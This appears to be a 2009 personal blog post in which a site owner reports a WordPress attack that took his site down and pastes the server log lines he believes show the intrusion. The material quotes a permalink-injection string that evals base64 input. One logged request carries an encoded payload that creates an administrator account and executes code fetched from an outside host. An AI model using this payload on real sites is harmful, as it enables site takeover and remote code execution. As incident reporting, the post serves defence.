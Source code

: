 ```yaml
---
layout: post
title: Wordpress Hacker This Morning.
comments: true
categories:
- Site News
tags:
---
```

I hate hackers - they are stupid (mostly) and generally not real productive at actually accomplishing anything except breaking things and causing unnecessary extra work for those that actually contribute to society.

Anyway I am sorry to all of the people that could not get to my site this morning. A wave of Wordpress attacks hit not only me but a ton of Wordpress sites all over the place - just googleÂ /%&amp;({${eval(base64_decode($_SERVER[HTTP_EXECCODE]))}}|.+)&amp;%/ if you want to see a bunch of them yourself (yep google already indexed them)

Anyway the attack appears to be coming from IP address 122.135.85.220. I just finished firing up a new virtual server with pristine code/data for all of you out there and am just starting to run this down. If anyone wants to help you have the source IP and this looks like the exploit used but I am still researching the entire sequence of events from my logs. It maybe that this is all there is to it but I want to be thorough.

Here is what I believe to be the hack:

<code>
48195 122.135.85.220 - - [04/Sep/2009:04:53:21 -0400] "GET /wp-login.php HTTP/1. Â  Â  Â 1" 200 1948 "http://photo.rwboyer.com/" "Mozilla/5.0 (Windows; U; Windows</code>

<code>NT 5.1; en-US; rv:1.7) Gecko/20040803 Firefox/0.9.3"48196 122.135.85.220 - - [04/Sep/2009:04:53:24 -0400] "POST /wp-login.php HTTP/1 Â  Â  Â .1" 302 - "http://photo.rwboyer.com/wp-login.php" "Mozilla/5.0 (Windows; U

; Windows NT 5.1; en-US; rv:1.7) Gecko/20040803 Firefox/0.9.3"48197 122.135.85.220 - - [04/Sep/2009:04:53:28 -0400] "GET /wp-admin/ HTTP/1.1"

200 34669 "http://photo.rwboyer.com/wp-login.php" "Mozilla/5.0 (Windows; U Â  Â  Â ; Windows NT 5.1; en-US; rv:1.7) Gecko/20040803 Firefox/0.9.3"

48198 122.135.85.220 - - [04/Sep/2009:04:53:34 -0400] "GET /wp-admin//options-pe Â  Â  Â rmalink.php HTTP/1.1" 200 15153 "http://photo.rwboyer.com/wp-admin//option Â  Â  Â s-permalink.php" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.7)

</code>

<code>Gecko/20040803 Firefox/0.9.3"48199 122.135.85.220 - - [04/Sep/2009:04:53:37 -0400] "POST /wp-admin//options-p Â  Â  Â ermalink.php HTTP/1.1" 200 15312 "http://photo.rwboyer.com/wp-admin//optio Â  Â  Â ns-permalink.php" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.7) Â  Â  Â  Gecko/20040803 Firefox/0.9.3"48200 122.135.85.220 - - [04/Sep/2009:04:53:41 -0400] "POST /xmlrpc.php HTTP/1.1 Â  Â  Â " 200 173 "JHJvbGU9J2FkbWluaXN0cmF0b3InOyR1c2VyX2xvZ2luPSdKZXJhbXlEZWNrNzk Â  Â  Â nOyR1c2VyX3Bhc3M9J09nck8hSTMkTGQhISc7ZXZhbChmaWxlX2dldF9jb250ZW50cygnaHR0c Â  Â  Â DovL2xpbmtzLndlYndvcmRwcmVzcy5jbi9kYXRhL3Nob3J0cGFydDIudHh0JykpO2V4aXQ7" " Â  Â  Â Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.7) Gecko/20040803 Fir Â  Â  Â efox/0.9.3"
</code>
RB